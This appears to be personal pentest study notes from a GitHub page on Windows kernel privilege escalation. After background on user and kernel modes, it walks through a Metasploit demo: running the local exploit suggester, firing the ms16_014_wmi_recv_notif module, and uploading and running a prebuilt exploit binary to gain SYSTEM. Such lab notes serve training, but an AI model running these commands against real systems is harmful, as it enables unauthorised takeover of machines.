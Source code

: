 # Windows Kernel Exploits

## Privilege Escalatation
- Privilege Escalation is the process of exploiting vulnerabilites or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilage Escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a pentest.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.

## Windows Kernel
- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernel tht comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exeptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
  1. User Mode - Programs and services running in user mode have limited access to system resources and functionality.
  2. Kernel Mode - Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

If we can exploit the windows kernel, and execute code in kernel mode, this code will be executed with highest level of privileges available.
Kernel interaction means increased likelyhood for system crashed and data loss. Not for enterprise environment

## Windows Kernel Exploitation
- Kernel exploits on Windows will typically target vulnerabilites in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the version of Windows being targeted and the kernel exploit being used.
- Privilege escalation on Windows systems will typically follow the following methodology:
  - Identifying kernel vulnerabilites
  - Downloading, compiling and transferring kernel exploits onto the target system.
 
## Tools & Environment
- Windows Exploit Suggester - Compares target patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules
- Windows-Kernel-Exploits - Collection of Windows Kernel exploits sorted by CVE

## Demo

msf6: `sessions`: In our case, we have a powerhsell and a meterpreter x64 session 
![grafik](https://github.com/user-attachments/assets/c50b2df5-5cd1-428e-bcd2-05b5339728b6)

msf6 meterpreter: `getsystem`

msf6: `search suggester` (before that we put meterpreter in background

msf6: `use 0`

msf6: `show options`

msf6: `sessions`

msf6: `run`: Enumerates all vulnerabilites in this version of windows and what metasploit modues we can use

We can google the metasploit framework to get more info.

msf6: `use exploit/windows/local/ms16_014_wmi_recv_notif`

msf6: `show options`

msf6: `set SESSION 3`

msf6: `set LPORT 4422`

msf6: `exploit`

Now we should get a meterpreter session with elevated privileges.

meterpreter: `getuid` we successfully elevated our privileges with the kernel exploit

background

msf6: `session 3`: we switch to session 3 which is unprivileged

meterpreter: `getuid`: we verify if thats the case

We check out the Windows Exploit Suggester

meterpreter: `shell`

shell: `systeminfo`: we need to copy into a txt file because it contains a list of hotfixes and based on this the windows exploit will determine which exploit can be used against this version of windows with this hotfixes installed.

new terminal: `Desktop`
`vim win7.txt`
copy systeminfo
`quit`
`ls` check if stored
`cd WIndows-Enum/WindowsExploitSuggester`: move into github rep directory
`./windows-exploit-suggester.py --update`: Downloads new vulnerability database
`./windows-exploit--suggester.py`:runs it
`--database 20xx-xx-xx-mssb.xls --systeminfo ~/Desktop/win7.txt`: those at very top are the exploits with the most chances. We can copy the MS Vuln. ID and google. We check the exploit in GitHub. There we can find the prebuild binary which we can run. Then we should have evelated privileges.

We use the meterpreter access to upload this exploit into the temp directory on the windows system
`cd C:\\`: we never use the home directory on a user account, because its frequently accessed by the user.
`upload ~/Downloads/41015.exe`
`shell`
C:\tEMP: `dir`
C:\tEMP: `410015.exe` We use the kernel exploit
C:\tEMP: `.\41015.exe`
C:\tEMP: `whoami` nt authority system. We got successfully access to the targer







